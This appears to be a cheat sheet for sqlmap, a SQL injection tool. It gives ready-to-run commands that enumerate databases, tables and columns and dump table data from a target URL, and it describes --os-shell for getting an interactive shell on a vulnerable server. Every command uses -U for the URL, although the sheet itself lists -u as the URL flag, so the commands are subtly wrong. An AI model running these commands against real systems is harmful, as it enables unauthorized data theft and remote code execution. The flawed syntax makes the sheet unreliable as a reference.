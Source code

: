 # SQLMAP AUTOMATED SQL INJECTION TOOL

## Commands:

### Database enumeration: sqlmap -U "http://www.example.com/page.php?id=1" --dbs 

### Database Table enumeration: sqlmap -U "http://www.example.com/page.php?id=1" --tables -D DATABASE

### Table columns enumeration:  sqlmap -U "http://www.example.com/page.php?id=1" --columns -D DATABASE -T TABLE

### Table information dumping: sqlmap -U "http://www.example.com/page.php?id=1" --dump -D DATABASE -T TABLE

#### -r HTTP_REQUEST_FILE = Use file from web proxies (Burpsuite) instead of writing entire URL

#### -u = URL 

#### --forms = Parse and test forms

#### --batch = Non-interactive mode (accepts default answers)

#### --crawl = How deep you want to crawl a site

#### --level = Different levels of tests ( Default = 1, Most = 5)

#### --risk = Different risk of tests ( Default = 1, Most = 3)

#### --os-shell = If the server is vulnerable to RCE via SQL Injection, it spawns an interactive shell to execute commands
